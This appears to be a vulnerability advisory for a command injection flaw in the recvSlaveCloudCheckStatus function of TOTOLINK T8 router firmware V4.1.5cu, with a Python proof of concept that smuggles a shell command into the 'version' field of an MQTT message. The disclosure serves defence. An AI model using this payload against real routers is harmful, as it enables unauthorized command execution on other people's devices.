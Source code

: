 # A command injection vulnerability in the function recvSlaveCloudCheckStatus of TOTOLINK Technology routers T8 V4.1.5cu allows attackers to execute arbitrary commands via a crafted MQTT packet.

## Description

A command injection vulnerability in the function recvSlaveCloudCheckStatus of TOTOLINK Technology routers T8 V4.1.5cu allows attackers to execute arbitrary commands via a crafted MQTT packet.

![image-20230116184500942](images/2.png)

## Firmware information

* Manufacturer's address:https://www.totolink.net/

![image-20230116184157081](images/1.png)

* Firmware download address : https://totolink.com.my/wp-content/uploads/2023/01/TOTOLINK_C8195R-1C_T8_IP04455_8197F_SPI_16M128M_V4.1.5cu.741_B20210916_ALL.zip

## Affected version

**Version: V4.1.5cu**

## Vulnerability details

The `T8` router opens the `MQTT` service

![image-20230116185238612](images/5.png)

In function `recvSlaveCloudCheckStatus`,The "version" parameter does not filter user input, which can cause command injection vulnerabilities



![image-20230116190613535](images/3.png)

POC

```
import paho.mqtt.client as mqtt
client = mqtt.Client()
client.connect("192.168.0.1",1883,60)
client.publish("totolink/router/recvSlaveCloudCheckStatus", b'{"version": ";`ls>/tmp/recvSlaveCloudCheckStatus.txt`;"}')
```

![image-20230116190718260](images/4.png)